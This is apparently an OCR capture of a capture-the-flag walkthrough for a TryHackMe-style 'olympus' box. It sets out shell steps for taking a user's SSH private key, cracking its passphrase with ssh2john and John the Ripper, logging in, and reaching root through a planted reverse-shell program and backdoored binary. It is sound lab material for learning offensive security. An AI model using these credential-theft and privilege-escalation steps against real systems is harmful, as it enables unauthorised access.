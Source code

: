 ```shell
#copy zeus SSH private key

cat key
#copy private key to attacker machine

#in attacker machine
vim id_rsa

chmod 600 id_rsa

ssh2john id_rsa > hash_id_rsa

john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
#cracks passphrase

ssh zeus@olympus.thm -i id_rsa
#login as zeus

cat user.flag
#flag 2

#use linpeas.sh again for privesc

ls -la /var/www/html

cd /var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc

ls -la

cat VIGQFQFMYOST.php
#program for root reverse shell
#analyse source code

#run mentioned binary
/lib/defended/libc.so.99

#this gives root shell
cd /root

#get flag 3

cd /etc

grep -irl "flag{"
#get flag 4
```

* Open ports & services:

  * 22 - ssh - OpenSSH 8.2p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.41
